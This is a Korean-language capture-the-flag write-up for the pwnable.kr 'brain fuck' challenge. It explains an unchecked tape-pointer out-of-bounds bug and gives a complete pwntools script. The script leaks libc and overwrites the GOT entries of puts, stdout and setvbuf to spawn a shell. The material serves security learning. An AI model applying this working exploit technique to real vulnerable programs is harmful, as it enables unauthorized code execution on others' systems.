 # [pwnable.kr] brain fuck

> I made a simple brain-fuck language emulation program written in C. 
> The [ ] commands are not implemented yet. However the rest functionality seems working fine. 
> Find a bug and exploit it to get a shell. 
>
> Download : http://pwnable.kr/bin/bf
> Download : http://pwnable.kr/bin/bf_libc.so
>
> Running at : nc pwnable.kr 9001
>
> [Attachment](./attachment)

## Bug

![image](https://github.com/user-attachments/assets/7ea8e1d0-5f1b-4f69-81cf-84cb700e64b2)

`<`와 `>` 연산을 처리할 때 `p`가 `tape`의 범위를 벗어나지 않는지 검사하는 과정이 없어서 OOB가 발생할 수 있다.

![image](https://github.com/user-attachments/assets/9ab8fedf-1d72-4da9-8149-d342cb270f03)

`tape`의 앞쪽에 있는 `p` 포인터를 임의의 주소로 덮으면 그 주소에 접근해서 값을 읽거나 쓸 수 있다.

## Exploit

GOT를 oneshot gadget으로 덮는 게 가장 간단한 방법이지만, 조건이 맞는 oneshot gadget이 없다.

![image](https://github.com/user-attachments/assets/8d0fb008-3d2c-4802-9da7-97b57c7e868f)

`main()`에서 `setvbuf(stdout, 0, 2, 0)`을 호출할 때, `0x804a060`(`stdout`의 GOT)에 저장된 값을 가져와서 `setvbuf()`의 첫 번째 인자로 전달한다. `stdout`의 GOT를 `"/bin/sh"`의 주소로 덮고 `setvbuf()`의 GOT를 `system()`의 주소로 덮으면, 이 코드는 `system("/bin/sh")`을 호출하는 코드가 된다.

![image](https://github.com/user-attachments/assets/22150f89-c7b6-48c3-9d5b-7a59388060a5)

그리고 나서 `puts()`의 GOT를 `main+35`로 덮어서 돌아가면 shell을 획득할 수 있다.

```python
# ex.py

from pwn import *

r = remote("pwnable.kr", 9001)

tape = 0x804A0A0  # tape
main = 0x8048671  # main()
puts_got = 0x804A018  # GOT of puts()
stdout_got = 0x804A060  # GOT of stdout
setvbuf_got = 0x804A028  # GOT of setvbuf()

puts_offset = 0x5FCB0  # offset of puts() from libc base
system_offset = 0x3ADB0  # offset of system() from libc base
binsh_offset = 0x15BB2B  # offset of "/bin/sh" from libc base

# leak libc
payload = b"<" * (tape - puts_got)
payload += b".>.>.>."

# overwrite GOT of puts() with main+35
payload += b"<<<"
payload += b",>,>,>,"

# overwrite GOT of stdout with "/bin/sh"
payload += b"<<<"
payload += b">" * (stdout_got - puts_got)
payload += b",>,>,>,"

# overwrite GOT of setvbuf() with system()
payload += b"<<<"
payload += b"<" * (stdout_got - setvbuf_got)
payload += b",>,>,>,"

# call puts() => main+35
payload += b"["

r.sendlineafter(b"type some brainfuck instructions except [ ]\n", payload)

# leak libc
puts = u32(r.recvn(4))  # puts()
libc = puts - puts_offset  # libc base
log.info("libc base: " + hex(libc))
system = libc + system_offset  # system()
binsh = libc + binsh_offset  # "/bin/sh"

# overwrite GOT of puts() with main+35
r.send(p32(main + 35))

# overwrite GOT of stdout with "/bin/sh"
r.send(p32(binsh))

# overwrite GOT of setvbuf() with system()
r.send(p32(system))

r.interactive()
```

![image](https://github.com/user-attachments/assets/04f883a3-b947-4462-8264-5936ce8b922c)
